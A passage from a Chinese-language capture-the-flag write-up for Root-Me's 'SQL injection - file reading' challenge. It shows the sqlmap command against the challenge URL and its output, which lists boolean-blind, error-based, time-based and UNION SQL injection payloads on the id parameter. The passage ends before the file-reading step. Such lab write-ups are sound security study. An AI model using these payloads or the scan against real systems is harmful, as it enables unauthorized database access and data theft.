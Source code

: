 ## [[Root-Me](https://www.root-me.org/)] [[Web-Server](https://www.root-me.org/en/Challenges/Web-Server/)] [[SQL injection - file reading](https://www.root-me.org/en/Challenges/Web-Server/SQL-injection-file-reading)] [[解题报告](https://exp-blog.com/safe/ctf/rootme/web-server/sqlinjection-filereading/)]

------


## 找到注入点

利用 SQL 注入读取服务器文件。

首先要找到注入点，为了提高效率可以直接使用 sqlmap ，测试发现注入点在这个页面：

[http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1](http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1)

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/01.png)

通过 sqlmap 扫描发现这是 **MySQL** 数据库，且此处同时存在 4 个注入漏洞：

- 基于布尔注入
- 基于错误注入
- 基于延时注入
- UNION 横向越权（**只有这个漏洞可以用于文件读取**）

```shell
S:\04_work\BurpSuite>sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1"
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.3.3.23#dev}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 21:56:34 /2019-03-17/

[21:56:34] [INFO] resuming back-end DBMS 'mysql'
[21:56:34] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: action=members&id=1 AND 5971=5971

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: action=members&id=1 AND (SELECT 6075 FROM(SELECT COUNT(*),CONCAT(0x7178627171,(SELECT (ELT(6075=6075,1))),0x716a627671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: action=members&id=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
```